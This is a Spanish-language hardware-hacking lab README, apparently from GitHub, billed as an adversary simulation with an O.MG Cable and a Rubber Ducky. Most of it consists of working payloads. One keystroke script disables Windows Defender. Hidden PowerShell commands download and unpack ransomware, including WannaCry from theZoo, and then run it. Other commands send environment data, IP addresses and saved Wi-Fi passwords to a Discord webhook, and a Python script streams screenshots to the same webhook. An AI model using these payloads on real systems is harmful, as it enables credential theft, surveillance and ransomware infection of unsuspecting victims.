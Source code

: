 Bienvenid@s al laboratorio de simulación de adversarios con herramientas de HardwareHacking



Las herramientas a utilizar serán:


* OMG Cable tipo USB-C

* RubberDucky V3



Antes de iniciar necesitamos:

1. Crear una cuenta en PayloadStudio aplicación que hará de IDE donde compilaremos nuestras cargas.
https://payloadstudio.hak5.org/community/

Ya con nuestra cuenta nos será posible compilar nuestros payloads en nuestras herramientas de pentesting. Para este caso usaremos la interfaz para compilar en RubberDucky.


Cabe mencionar que las herramientas que utilizaremos para este laboratorio en nuestros dispositivos son detectadas como teclados, y bajo esa funcionalidad hay que operarlas, por lo cuál es muy importante para nosotros haber hecho toda una etapa de reconomiento donde sepamos su distribución para ejecutar las cargas en la nomenclatura correcta y tener en cuenta la versión de powerShell donde aseguraremos una ejecución plena de los scripts.


2. El siguiente es un payload que debe pegarse sobre el IDE payloadstudio, compilarse y descargarse para su posterior activación.

DELAY 1000
CTRL ESC
DELAY 200
STRING Defender
DELAY 200
ENTER
DELAY 1000
ENTER
DELAY 200
TAB
DELAY 200
TAB
DELAY 200
TAB
DELAY 200
TAB
DELAY 200
ENTER
DELAY 500
SPACE
DELAY 500
TAB
DELAY 500
TAB
DELAY 500
ENTER
DELAY 500
TAB
DELAY 500
SPACE
DELAY 500
TAB
DELAY 500
SPACE
DELAY 500
TAB
DELAY 500
TAB
DELAY 500
SPACE
DELAY 500
ALT F4
ESC

El payload anterior está hecho para SO Win10 y distribuciones de teclado en inglés pero puede funcionar en teclados con distribución en español. Este puede ser descargado como recurso dentro de la misma carpeta del laboratorio (Inject.bin).

Una vez hayamos desactivado la seguridad del SO, nuestro atacante en sitio tendrá que buscar la oportunidad para conectar el OMG Cable para iniciar con inyección remota de código.



3. Creada la oportunidad para que el atacante introdujera el cable en la víctima, nuestro compañero tendrá que garantizar por el mayor tiempo posible una segura ejecución de los payloads.

El cable levantará una red wifi comúnmente con SSID: O.MG
La clave por defecto es: 12345678


4. Una vez enlazados nos conectaremos al dispositivo por la IP: 192.168.4.1

Esto nos llevará a una aplicación web que será nuestro IDE, Keylogger, monitor de logs y panel de configuración del dispositivo.


5. Enlistamos nuestros Payloads:

DUCKY_LANG US
DELAY 2000

GUI r 
DELAY 500
STRING powershell -WindowStyle Hidden
ENTER
DELAY 500
STRING New-Item -Path 'C:\tmp' -ItemType Directory
ENTER
DELAY 500
STRING Invoke-RestMethod -Uri "https://discord.com/api/webhooks/TU_TOKEN_AQUI" -Method Post -Body @{content="Nueva versión de PowerShell disponible:"; file = (Get-Content "C:\tmp\version.txt" -Raw | Out-String | ConvertTo-Base64); filename="version.txt"} -ContentType "application/json"
DELAY 300
ENTER
STRING exit
DELAY 200
ENTER

El siguiente comando mediante un token de discord  enviará la versión de powerShell al atacante a un webhook anteriormente creado. Esto nos crea un directorio en C: donde almacenará nuestro malware para su posterior ejecución. La carga obtiene la versión de powershell para poder ajustar nuestros payloads a las configuraciones de la víctima


6. Ejecutamos la descarga de nuestro malware una vez hecho el reconomiento.

DUCKY_LANG US
DELAY 2000

GUI r 
DELAY 500
STRING powershell -WindowStyle Hidden
ENTER
DELAY 500
STRING $url = "https://github.com/H4ckPyUN/Ciberseguridad/blob/main/Labs%20Ciberseguridad/Simulaci%C3%B3n%20de%20adversarios%20HardwareHacking/ransom0.exe"
DELAY 500
ENTER
STRING $destino = "C:\tmp"
DELAY 500
ENTER
STRING Invoke-WebRequest -Uri $url -OutFile "$destino\malware.exe"
DELAY 500
ENTER
STRING EXIT
DELAY 200
ENTER



#El siguiente payload permite descargar malware desde el repositorio TheZoo aprovechando su disponibilidad.

DUCKY_LANG US
DELAY 2000

GUI r 
DELAY 500
STRING powershell -WindowStyle Hidden
ENTER
DELAY 500
STRING $url = "https://github.com/ytisf/theZoo/raw/master/malware/Binaries/Ransomware.WannaCry_Plus/Ransomware.WannaCry_Plus.zip"
DELAY 500
ENTER
STRING $destino = "C:\tmp"
DELAY 500
ENTER
STRING $sieteZipExe = "C:\Program Files\7-Zip\7z.exe"
DELAY 500
ENTER
STRING Invoke-WebRequest -Uri $url -OutFile "$destino\Ransomware.WannaCry_Plus.zip"
DELAY 500
ENTER
STRING & $sieteZipExe x "$destino\Ransomware.WannaCry_Plus.zip" -o"$destino\descomprimido" -p"infected"
DELAY 1000
ENTER
STRING EXIT
DELAY 200
ENTER

* El Payload está hecho para versiones de PowerShell 5 o posteriores. 



7. Antes de realizar la infección hagamos algo de exfiltración de datos y reconocimiento de víctima.

DUCKY_LANG US
DELAY 2000

GUI r 
DELAY 500
STRING powershell -WindowStyle Hidden
ENTER
DELAY 500
STRING $url="YOUR DISCORD WEBHOOK";dir env: >> stats.txt; Get-NetIPAddress -AddressFamily IPv4 | Select-Object IPAddress,SuffixOrigin | where IPAddress -notmatch '(127.0.0.1|169.254.\d+.\d+)' >> stats.txt;(netsh wlan show profiles) | Select-String "\:(.+)$" | %{$name=$_.Matches.Groups[1].Value.Trim(); $_} | %{(netsh wlan show profile name="$name" key=clear)}  | Select-String "Key Content\W+\:(.+)$" | %{$pass=$_.Matches.Groups[1].Value.Trim(); $_} | %{[PSCustomObject]@{PROFILE_NAME=$name;PASSWORD=$pass}} | Format-Table -AutoSize >> stats.txt;$Body=@{ content = "$env:computername Stats from Ducky/Pico"};Invoke-RestMethod -ContentType 'Application/Json' -Uri $url  -Method Post -Body ($Body | ConvertTo-Json);curl.exe -F "file1=@stats.txt" $url ; Remove-Item '.\stats.txt';exit
DELAY 500
ENTER
STRING exit
DELAY 200
ENTER

* Este payload nos envía al webhook anteriormente creado más información de la víctima y el equipo.


8. También podemos tomar capturas de pantalla:

El siguiente script hecho en python realiza exfiltración de snapshots a sistema.
Creando un archivo .py configuramos el siguiente script:
Como recurso puede ser descargado: https://github.com/H4ckPyUN/Ciberseguridad/blob/main/Labs%20Ciberseguridad/Simulaci%C3%B3n%20de%20adversarios%20HardwareHacking/SnapshotPyFile/script.py

import pyautogui
from time import sleep
import requests


# YOUR DISCORD WEBHOOK
discord_webhook = ""

# Edit this variables as you want
SCREENSHOTS = 10
TIMING = 5

for i in range(SCREENSHOTS):
    sleep(TIMING)

    # take the screenshot
    screenshot = pyautogui.screenshot()
    screenshot.save("screenshot.png")

    with open("screenshot.png", "rb") as f:
        foto = f.read()

    richiesta = {
        "username": "ExfiltrateComputerScreenshot"
    }

    # Send the message by attaching the photo
    response = requests.post(discord_webhook, data=richiesta, files={"Screen#"+str(i)+".png": foto})

    # Useful for debugging
    #if response.status_code == 200:
    #     print("Photo successfully sent!")
    #else:
    #     print("Error while submitting photo." + str(response.status_code))


8.1 Su descarga también puede ser hecha desde github.


DUCKY_LANG US
DELAY 2000

GUI r
DELAY 1000
STRING powershell -WindowStyle Hidden
ENTER
DELAY 2000
STRING $url = "https://github.com/H4ckPyUN/Ciberseguridad/blob/main/Labs%20Ciberseguridad/Simulaci%C3%B3n%20de%20adversarios%20HardwareHacking/SnapshotPyFile/script.py"
DELAY 200
ENTER
STRING $destino = "C:\tmp"
DELAY 200
ENTER
STRING Invoke-WebRequest -Uri $url -OutFile "$destino\script.py" 
DELAY 200
ENTER

8.2 Descargado una vez el archivo procedemos a su ejecución.

DUCKY_LANG US
DELAY 2000

GUI r
DELAY 200
STRING powershell  -WindowStyle Hidden
DELAY 200
ENTER
DELAY 300
STRING cd C:\tmp
DELAY 200
ENTER
STRING python .\script.py
DELAY 200
ENTER


9. Obtenida toda la información necesaria de la victima, procedemos con la infección remota.

DUCKY_LANG US
DELAY 2000

GUI r
DELAY 200
STRING  C:\tmp\malware.exe -WindowStyle Hidden
DELAY 200
ENTER



Y es así como en un corto periodo de tiempo un equipo descuidado se vuelve un vector de ataque.
